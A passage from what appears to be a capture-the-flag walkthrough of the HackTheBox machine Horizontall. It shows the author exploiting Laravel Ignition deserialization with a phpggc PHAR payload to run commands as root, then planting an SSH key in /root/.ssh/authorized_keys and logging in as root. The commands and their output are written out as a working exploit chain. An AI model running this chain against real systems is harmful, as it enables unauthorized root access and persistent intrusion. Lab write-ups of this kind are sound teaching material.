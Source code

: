     000001c0: 7374 2e74 7874 0400 0000 af3f 0861 0400  st.txt.....?.a..
    000001d0: 0000 0c7e 7fd8 a401 0000 0000 0000 7465  ...~..........te
    000001e0: 7374 7465 7374 d9ed c52a 4925 ac5f 19e8  sttest...*I%._..
    000001f0: 09c7 8a82 9975 1ffa 2a30 0200 0000 4742  .....u..*0....GB
    00000200: 4d42
    

The command, `id`, is on line 0x000000f0.

Now I’ll run the Python script, passing it the serialized payload:

    
    
    oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 id.phar 
    + Log file: /home/developer/myproject/storage/logs/laravel.log
    + Logs cleared
    + Successfully converted to PHAR !
    + Phar deserialized
    --------------------------
    uid=0(root) gid=0(root) groups=0(root)
    --------------------------
    + Logs cleared
    

It works, and is running as root!

#### Shell

I’ll regenerate a new payload, this time creating `/root/.ssh` if it doesn’t
exist, and then writing my SSH key to `authorized_keys`:

    
    
    oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o ssh.phar --fast-destruct monolog/rce1 system 'mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'
    

Run the exploit again:

    
    
    oxdf@hacky$ python3 /opt/laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000 ssh.phar
    + Log file: /home/developer/myproject/storage/logs/laravel.log
    + Logs cleared
    + Successfully converted to PHAR !
    + Phar deserialized
    Exploit succeeded
    + Logs cleared
    

I’m now able to connect as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.10.125
    ...[snip]...
    root@horizontall:~# 
    

And grab the flag:
